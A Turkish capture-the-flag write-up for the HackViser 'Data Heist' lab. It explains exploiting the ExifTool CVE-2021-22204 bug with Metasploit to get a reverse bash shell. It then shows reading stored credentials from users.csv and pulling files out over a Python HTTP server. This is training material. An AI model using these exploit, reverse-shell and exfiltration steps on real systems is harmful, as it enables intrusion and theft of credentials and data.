


# Data Heist CTF Çözüm Raporu

## Genel Bilgiler

- **Platform**: HackViser
- **Senaryo Adı**: Data Heist
- **URL**: https://app.hackviser.com/scenarios/data-heist
- **Tarih**: 6 Mart 2026

## Senaryo

Şirketimizde, siber güvenlik konusunda yeterince bilinçli olmayan bazı çalışanların bulunduğunu fark ettik. Bu çalışanların, şirkete ait veri içeren dosyaların metadata bilgilerini görüntülemek amacıyla "Exif Viewer" adında bir web sitesine yükledikleri gözlemlendi.

İlgili site, yüklenen dosyaları saklamadığını iddia ediyor. Ancak biz bu durumun doğruluğundan emin olmak zorundayız. Eğer şirketimize ait herhangi bir dosya bu süreçte ele geçirilmişse, hangi bilgilerin risk altında olabileceğini belirlememiz gerekmekte. Bu kritik süreçte bize rehberlik etmeniz bekleniyor. Sizin uzmanlığınıza güveniyoruz.

## Flaglar

1. **Flag 1** – Yüklenen dosyaların sunucuda depolandığı yol nedir?
2. **Flag 2** – Depolanan dosyaların içerisinde bulunan verilerden "waltersltd" şirketine ait bir çalışanın e-posta adresi ve parolası nedir?
3. **Flag 3** – Depolanan dosyaların içerisinde bulunan bir faturanın fatura numarası nedir?
4. **Flag 4** – Depolanan dosyaların içerisinde bulunan veritabanı bağlantı adresi nedir?

## Keşif (Reconnaissance)

- Site exiftool ile belge kontrolü yapan bir senaryo benimsemiş.
- Sitenin ağını, dosya düzenini ve kaynak kodlarını inceledik.
- İlk bulgumuz, kaynak kodunda "ExifTool Version Number : 12.23" idi; bu versiyonu araştırdık.
- CVE-2021-22204 zafiyeti bulunan bir sürüm, medium seviyede bir zafiyet. Bu zafiyetin detaylı incelemesini hâlihazırda yaptım.

## Silahlanma (Weaponization) 

- Zafiyeti sömürmek için zararlı yazılım içeren bir belge gerekli.
- Metasploit konsolu (`msfconsole`) ile bu zafiyetli belgeyi oluşturabiliriz.

```bash
search CVE-2021-22204
use 0
```

Bu komut sizi `exploit/unix/fileformat/exiftool_djvu_ant_perl_injection` modülüne yönlendirecektir.

```bash
options
```

Bu komut ile ayarlanması gereken seçenekleri görürsünüz. `LHOST` kısmına kendi IP adresinizi yazın:

```bash
set LHOST <IP>
```

Ve son olarak:

```bash
run    # veya exploit
```

Bu işlemler size bir JPG dosyası üretecek; çıktı hangi dosyaya kaydedildiğini gösterecektir.

## Saldırı (Exploitation)

1. `use exploit/multi/handler` komutu ile modül seç.
2. `set payload cmd/unix/reverse_bash` – hedefte çalışacak olan bash tabanlı geri dönüş mekanizmasını belirle.
3. `set LHOST <yerel_IP>` – kendi IP adresinizi tanımlayın.
4. `set LPORT 4444` – dinlenecek portu belirleyin.
5. `set ExitOnSession false`
6. `exploit -j` – exploit'i arka planda çalıştır.

`sessions` komutu ile oturum var mı kontrol edin ve `sessions -i 1` ile sisteme girin (1; session id değeridir).

Artık içerideyiz ama bir adım daha var:

```
shell
```

daha sonra biraz bekleyin ve `/bin/bash` yazarak gerçek shell'e geçin.

## Post-Exploitation ve Flag Yakalama

- **Flag 1**: HTML dizininden çıkın ve `upload` klasörünü fark edin; bu ilk flag'imiz.
- **Flag 2**: `uploads` klasörüne girin ve içerisindeki `users.csv` dosyasını okuyun. Flag burada.
- **Flag 3**: İçerisinde PDF bulunan `uploads` klasöründe bir dosya var. PDF'i dışarı almak için hedeften kendi sunucunuza HTTP üzerinden servis verebilirsiniz.

  ```bash
  python3 -m http.server 8080
  ```

  Komutu hedef makinede çalıştırırsanız, sunucu bu PDF'i `http://<HEDEF_IP>:8080/Ja23s6_techinnovations_invoice.pdf` adresinden sağlayacaktır. Flag 3 bu PDF içinde yazıyor. Alternatif olarak PDF'i base64'e çevirip kendi bilgisayarınızda dönüştürebilirsiniz.

  

- **Flag 4**: `.go` uzantılı bir veritabanı dosyası var. `strings` ile açarsanız, veritabanı bağlantı adresini görürsünüz.

## Sonuç ve Öğrenilenler

- ExifTool versiyon ve zafiyet analizleri.
- Metasploit kullanarak işaretli belge oluşturma ve reverse shell.
- Sistemde gezinme, dosya keşfi ve flag çıkartma.
- Basit HTTP sunucusu ile dosya transferi.

---

> **Not:** Tüm adımlar eksiksiz şekilde GitHub üzerinde Markdown formatında bulundu. Görseller `images/` klasöründe tutulmuştur.
